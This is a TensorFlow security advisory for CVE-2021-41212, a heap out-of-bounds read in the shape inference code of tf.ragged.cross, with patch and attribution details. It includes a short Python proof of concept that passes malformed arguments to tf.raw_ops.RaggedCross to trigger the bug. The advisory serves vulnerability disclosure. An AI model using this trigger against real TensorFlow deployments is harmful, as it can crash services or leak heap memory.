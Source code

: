 ## TFSA-2021-183: Heap OOB read in `tf.ragged.cross`

### CVE Number
CVE-2021-41212

### Impact
The [shape inference code for `tf.ragged.cross`](https://github.com/galeone/tensorflow/blob/8d72537c6abf5a44103b57b9c2e22c14f5f49698/tensorflow/core/ops/ragged_array_ops.cc#L64) can trigger a read outside of bounds of heap allocated array:

```python
import tensorflow as tf

@tf.function
def test():
  y = tf.raw_ops.RaggedCross(ragged_values=[],
                             ragged_row_splits=[],
                             sparse_indices=[[5]],
                             sparse_values=[],
                             sparse_shape=[5],
                             dense_inputs=[['a']],
                             input_order='RD',
                             hashed_output=False,
                             num_buckets=5,
                             hash_key=2,
                             out_values_type=tf.string,
                             out_row_splits_type=tf.int64)
  return y

test()
```

### Patches
We have patched the issue in GitHub commit [fa6b7782fbb14aa08d767bc799c531f5e1fb3bb8](https://github.com/galeone/tensorflow/commit/fa6b7782fbb14aa08d767bc799c531f5e1fb3bb8).

The fix will be included in TensorFlow 2.7.0. We will also cherrypick this commit on TensorFlow 2.6.1, TensorFlow 2.5.2, and TensorFlow 2.4.4, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/galeone/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo 360.
